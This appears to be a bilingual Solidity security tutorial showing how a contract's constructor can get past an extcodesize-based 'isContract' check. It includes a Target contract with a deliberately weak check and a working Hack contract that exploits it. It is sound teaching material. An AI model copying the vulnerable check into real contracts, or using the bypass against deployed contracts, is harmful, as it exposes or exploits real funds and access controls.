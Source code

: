 ## 绕过合约规模检查
漏洞
如果一个地址是一个合约，那么该地址存储的代码大小将大于 0，对吗？

让我们看看如何创建一个返回代码大小等于extcodesize0 的合约。

Vulnerability
If an address is a contract then the size of code stored at the address will be greater than 0 right?

Let's see how we can create a contract with code size returned by extcodesize equal to 0.
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Target {
    function isContract(address account) public view returns (bool) {
        // This method relies on extcodesize, which returns 0 for contracts in
        // construction, since the code is only stored at the end of the
        // constructor execution.
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}

contract FailedAttack {
    // Attempting to call Target.protected will fail,
    // Target block calls from contract
    function pwn(address _target) external {
        // This will fail
        Target(_target).protected();
    }
}

contract Hack {
    bool public isContract;
    address public addr;

    // When contract is being created, code size (extcodesize) is 0.
    // This will bypass the isContract() check
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        // This will work
        Target(_target).protected();
    }
}
```
